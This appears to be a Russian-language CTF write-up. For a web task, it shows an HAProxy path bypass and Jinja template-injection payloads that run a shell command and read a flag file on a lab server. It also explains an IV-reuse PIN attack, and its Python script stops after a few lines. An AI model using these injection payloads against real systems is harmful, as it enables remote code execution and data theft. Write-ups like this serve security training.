 # web3 - 30 баллов

Заходи на сайт, видим поле для ввода
![](web3_pic/index.png)

Вводим в него данные, нам пишет ввести имя на странице `/flag`
![](web3_pic/flag_move.png)

Переходим в данную директорию, но нам выводит ошибку 403
![](web3_pic/403_error.png)

Анализ исходного кода показал, что нам блокирует доступ `haproxy`, а при запросе на данную директорию надо передовать параметр `name` в котором недолжно содержаться запрещёных символов
![](web3_pic/name.png)
![](web3_pic/haproxy.png)

Следовательно нам ничего не остаётся как обойти данную ошибку, так как других скрытых директорий найдено не было

## Exploit 
Пробуем Path Fuzing с передачей параметра: `http://192.168.12.11:8001//flag?name=admin`, получаем в ответ `Привет админ`
![](web3_pic/hello.png)

Пробуем Server Site Template Injection: `http://192.168.12.11:8001//flag?name={{%20get_flashed_messages.__globals__.__builtins__[%27__import__%27](%27os%27).popen(%22pwd%22).read()%20%20}}`, в ответ получаем папку с именем `app`, в которой находится файл `flag.txt`
![](web3_pic/app.png)

Следующим запросом получаем флаг: `http://192.168.12.11:8001//flag?name={{%20get_flashed_messages.__globals__.__builtins__.open(%22/app/flag.txt%22).read()%20}}`
![](web3_pic/flag.png)

## Flag
`nto{Ht1P_sM088Lin6_88Ti}`

# Crypto1 - 10 баллов

В задаче нужно узнать PIN, чтобы получить флаг.
Но на проверку пина (`/api/CheckPin`) стоит сильный ratelimit (1 запрос/мин), перебрать не получится.

IV при шифровании пина изменяется меняется каждую секунду, а не каждый раз, когда он используется. Значит, мы можем скачать зашифрованный пин раз в секунду и перебирать пины, шифровать их (`/api/EncryptPin`) и сравнивать с правильным пином.

## Exploit
```python
import requests
import time

last_checked = None
servpin = None
pin = 0

while True:
    if last_checked != int(time.time()):
        last_checked = int(time.time())
```